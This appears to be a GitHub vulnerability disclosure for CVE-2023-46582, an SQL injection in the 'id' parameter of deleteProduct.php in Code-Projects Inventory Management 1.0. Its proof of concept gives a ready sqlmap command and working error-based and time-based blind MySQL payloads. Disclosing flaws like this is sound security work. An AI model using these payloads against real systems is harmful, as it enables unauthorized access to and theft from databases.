 # CVE-2023-46582-Code-Projects-Inventory-Management-1.0-SQL-Injection-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/inventory-management-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2021/05/Inventory_Management_In_PHP_With_Source_Code.zip
# Overview
+ Code-Projects Inventory Management V1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'id'parameter in the deleteProduct.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46582
+ Affected Version: Code-Projects Inventory Management V1.0
+ Vulnerable File: /deleteProduct.php
+ Parameter Name: id 
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46582
+ https://nvd.nist.gov/vuln/detail/CVE-2023-46582
# Description
+ The lack of proper input validation and sanitization on the 'id' parameter allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database

# Proof of Concept (PoC) : 
+ Login with admin
+ Go to Products page
+ Send a delete request for a product
+ Intercept the request via Burp Suite
+ Copy and paste the request to a request.txt file
+ Then use sqlmap to exploit
+ `sqlmap -r request.txt -p id --risk 3 --level 5 --dbms mysql --batch --current-db`

```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=35 AND (SELECT 7568 FROM(SELECT COUNT(*),CONCAT(0x716a706271,(SELECT (ELT(7568=7568,1))),0x716b707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=35 AND (SELECT 1053 FROM (SELECT(SLEEP(5)))ekBD)
---
```
+ current database: `inventory_project`
<img width="1447" alt="image" src="https://github.com/ersinerenler/Code-Projects-Inventory-Management-1.0/assets/113091631/9b68392c-8b68-440f-bc19-cd2160e3b801">
